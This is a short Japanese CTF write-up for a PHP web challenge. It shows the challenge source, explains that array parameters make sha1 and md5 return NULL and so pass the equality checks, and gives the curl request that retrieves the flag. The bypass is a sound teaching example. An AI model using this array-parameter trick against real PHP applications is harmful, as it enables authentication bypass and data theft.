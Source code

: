 # Tricks 1:Web:120pts
A couple of PHP tricks, give it a try.  
[Click here](https://ch5.sbug.se/)  

# Solution
アクセスするとPHP問であることがわかる。  
[site.png](site/site.png)  
```php
 <?php
    error_reporting(0);

    if (isset($_GET["a"]) && isset($_GET["b"])) {
        if ($_GET["a"] !== $_GET["b"] && sha1($_GET["a"]) === sha1($_GET["b"])) {
            if ($_GET["a"] !== $_GET["b"] && md5($_GET["a"]) === md5($_GET["b"])) {
                $flag = file_get_contents("../../flag");
                echo $flag;
            }else {
                echo "Didn't get passed MD5.";
            }
        }else {
            echo "Didn't get passed SHA1.";
        }
    }else {
        highlight_file(__FILE__);
        die();
    }
?> 
```
パラメータ`a`と`b`は厳密に不等価であり、そのsha1とmd5が厳密に等価であればよい。  
まずはsha1とmd5が共に一致するものは見つけにくいので、バイパスを考える。  
文字列を引数にとるが、配列を入れるとNULLが返ってくるらしい。  
つまり`sha1(["a"]) === sha1(["b"])`や`md5(["a"]) === md5(["b"])`は`NULL === NULL`となり真になる。  
もちろん`["a"] !== ["b"]`は真である。  
```bash
$ curl "https://ch5.sbug.se/?a[]=a&b[]=b"
SBCTF{g07_2_w17h_0n3_SH07?}
```
flagが得られた。  

## SBCTF{g07_2_w17h_0n3_SH07?}